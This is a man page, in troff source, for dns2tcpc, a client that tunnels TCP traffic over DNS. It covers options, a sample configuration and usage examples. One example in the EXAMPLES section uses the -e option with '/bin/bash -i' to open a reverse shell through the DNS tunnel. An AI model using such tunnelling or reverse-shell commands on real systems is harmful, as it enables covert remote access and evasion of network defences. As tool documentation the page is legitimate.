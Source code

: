 .TH dns2tcpc 1

.SH NAME 
dns2tcpc \- A tunneling tool that encapsulate TCP traffic over DNS.

.SH SYNOPSIS 
.B dns2tcpc 
[
.B \-h
] [
.B \-c
] [
.B \-z 
.I domain zone
] [
.B \-d 
.I debug_level
] [
.B \-r 
.I resource
] [
.B \-k
.I key
] [
.B \-f 
.I config_file
] [
.B \-e 
.I command
] [
.B \-T
.I request type
] [
.B \-l
.I local_port
] [ 
.I server
] 
.br
.ad

.SH DESCRIPTION 
dns2tcpc is a network tool used to encapsulate TCP communications in
DNS. When connections are received on a specific port all TCP traffic is
sent to the remote dns2tcpd server and forwarded to a specific host and
port. Multiple connections are supported. 
.PP 
dns2tcpc was written for demonstration purposes.
.SH OPTIONS 
.TP
.BI -h
Help Menu
.TP
.BI -c
Enable DNS compression. When used, be sure that all relay and DNS server
support compression and really use it.
.TP
\fB\-z\fR \fBdomain zone\fR
Use this domain as endpoint.
.TP
\fB\-d\fR \fBdebug level\fR
Change debug level. Levels available are 1, 2 or 3.
.TP
\fB\-r\fR \fBresource\fR
Remote resource to access. 
.TP
\fB\-k\fR \fBkey\fR
Pre shared key used for authentication (identification).
.TP
\fB\-f\fR \fBconfig file\fR
Configuration file to use.
.TP
\fB\-T\fR \fBrequest type\fR
Request type to use. Actually only KEY and TXT requests are supported.
.TP
\fB\-e\fR \fBcommand\fR
Command to execute, I/O are redirected in the tunnel.
.TP
\fB\-l\fR \fBlocal_port\fR
Local port accepting incomming connections (or - for stdin on UNIX systems). 
.TP
\fB\-t\fR \fBconnection timeout\fR
Maximum DNS server's answer delay in seconds. A valid delay
is between 1 and 240 seconds. Default is 3.
.TP
\fBserver\fR
DNS server to use. The first entry in resolv.conf file will be choosen if the server is not specified.

.SH CONFIGURATION FILES
By default ${HOME}/.dns2tcprc is used if no configuration file is
specified. Here is an example :
.TP
.nf
.in 7
domain = dns2tcp.hsc.fr
resource = ssltunnel
local_port = 4430
enable_compression = 0
debug_level = 1
key = mykey
# DNS to use
server = ns.hsc.fr
.fi

.SH EXAMPLES
.PP 
.IP "\fB\f(CWdns2tcpc -k mykey -z dns2tcp.hsc.fr mydns\fP"
.IP
Ask the dns2tcp server to list available resources.
.IP 
.IP "\fB\f(CWssh -o 'ProxyCommand dns2tcpc -r ssh -l - -z dns2tcp.hsc.fr -k mykey mydns' myserver\fP"
.IP 
Use dns2tcp as a proxy command with ssh. We try to connect to the ssh resource with the key 'mykey' and the DNS mydns.
.IP 
.IP "\fB\f(CWdns2tcpc -r socat-resource -e '/bin/bash -i' -k mykey -z dns2tcp.hsc.fr mydns\fP"
.IP
Use dns2tcp as a reverse shell, the remote shell will appear on the socat-resource.
.IP 
.IP "\fB\f(CWdns2tcpc -d 1 -f /dev/null -r ssl-tunnel -l 2000 -k mykey  -T KEY -z dns2tcp.hsc.fr mydns\fP"
.IP
Do not use the default configuration file, bind local port 2000 and forward all the traffic on the remote ssl-tunnel resource, use the first debug level. Use KEY type DNS requests.
.IP
.SH AUTHORS
Olivier Dembour <olivier.dembour@hsc.fr>

.SH SEE ALSO
ssltunnel 

